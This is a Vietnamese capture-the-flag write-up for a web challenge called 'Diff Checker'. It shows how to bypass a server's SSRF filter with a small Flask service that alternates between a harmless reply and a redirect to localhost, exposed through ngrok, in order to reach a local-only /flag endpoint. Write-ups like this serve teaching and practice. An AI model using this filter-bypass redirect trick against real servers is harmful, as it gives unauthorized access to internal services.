 # Diff Checker

Mình vẫn chưa solve được bài tại giải này do có một ít bruh .__. Bài này sử dụng một kĩ thuật khá hay giống với thứ mình mới học gần đây nên mình viết write up để lưu lại :>

## Hmmmmmm

Sau khi nghiên cứu source thì ai cũng biết flag được giấu ở đây :)). Để lấy được flag thì mình phải request đến `/flag` bằng một địa chỉ local.

```js
app.get('/flag', (req, res) => {
	if(req.connection.remoteAddress == '::1'){ // check ip local
		res.send(flag)}
	else{
		res.send("Forbidden", 503)}
});
```

Server sẽ request 2 lần đến địa chỉ mà mình cung cấp:

* Lần 1 là kiếm tra SSRF tại hàm `validifyURL`

```js
valid = await fetch(url, {agent: ssrfFilter(url)})
```

* Lần 2 là thực hiện `fetch` để lấy nội dung tại hàm `diffURLs`

```js
const pageOne = await fetch(urls[0]).then((r => {return r.text()}));
```

Khi request lần đầu, server sẽ check SSRF do đó URL mình nhập vào không được trỏ đến các địa chỉ bị filter như: `localhost`, `127.0.0.1`, `0.0.0.0`,... Sau khi đã pass được đoạn check SSRF thì mình cần phải trỏ đến server bằng địa chỉ local để lấy được flag.

Với ý tưởng như trên mình có thể dễ dàng solve được bài này bằng kĩ thuật DNS Rebinding nhưng ở đây, mình sẽ tự build một cái service tương tự, đây chính là thứ mình muốn note lại.

***But ưtf is D N S R e b i n d i n g ????***

![dejavu](images/dejavu.png)

DNS Rebinding ở các bài viết trước của mình:

* [Ez SQL (ISITDTU CTF QUALS 2021)](https://github.com/woanmeo11/ctf-writeups/tree/main/ISITDTU%20CTF%20QUALS%202021/ez%20sql)

* [A tiny hole (Cookie Arena Season 1)](https://github.com/woanmeo11/ctf-writeups/tree/main/Cookie%20Arena%20Season%201/A%20tiny%20hole)

## Do it

Đây là một đoạn code mình dựa trên ý tưởng vừa rồi, `backend.py`:

```python
from flask import Flask, redirect
import requests

app = Flask(__name__)
bit_flip = 0

# This function works like DNS Rebinding technique.
@app.route("/")
def rebinding():
    global bit_flip
    bit_flip += 1
    if bit_flip & 1:
        return 'bruh'
    else:
        return redirect('http://localhost:1337/flag')

app.run('localhost', 1234)
```

Đoạn code trên sẽ xoay vòng trả về `bruh` hoặc chuyển hướng đến `http://localhost:1337/flag`.

Tiếp theo là chạy file `backend.py` và dùng `ngrok` để public lên internet:

```console
$ ngrok http localhost:1234

ngrok by @inconshreveable                                                                                (Ctrl+C to quit)

Session Status                online
Account                       woanmeo11 (Plan: Free)
Version                       2.3.40
Region                        United States (us)
Web Interface                 http://127.0.0.1:4040
Forwarding                    http://e0cc-14-242-198-247.ngrok.io -> http://localhost:1234
Forwarding                    https://e0cc-14-242-198-247.ngrok.io -> http://localhost:1234

Connections                   ttl     opn     rt1     rt5     p50     p90
                              0       0       0.00    0.00    0.00    0.00
```

Cuối cùng, dùng URL mình nhận được từ `ngrok` và exploit thôi xD

![exploit](images/exploit.png)

Wait for it.

![flag](images/flag.png)


Flag: `idek{d1ff3r3nc3_ch3ck3r_d3ce1v3d_bY_d1ff3r3nc3s}`

#

Technique này mình note lại từ `downgrade` <3